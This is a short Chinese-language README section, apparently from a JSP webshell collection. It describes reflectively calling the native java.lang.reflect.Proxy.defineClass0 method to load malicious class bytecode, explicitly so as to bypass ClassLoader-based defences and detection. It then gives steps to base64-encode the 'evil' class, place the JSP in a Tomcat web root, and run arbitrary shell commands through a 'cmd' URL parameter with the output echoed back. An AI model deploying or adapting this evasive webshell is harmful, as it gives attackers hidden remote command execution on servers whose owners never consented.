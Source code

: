 ### Proxy 的 native 方法 defineClass0 加载类字节码

说明：

反射调用 java.lang.reflect.Proxy 的 native 方法 defineClass0 向 JVM 注册类，本质上类似 ClassLoader 类型的木马，但是可以绕过对 ClassLoader 的相关防御，另外由于是 native 方法，可以绕过很多检测方式。

生成字节码(使用 2.jsp 中的类)：
```
javac ByteCodeEvil.class
java ByteCodeEvil
cat ByteCodeEvil.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问20.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/2.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```
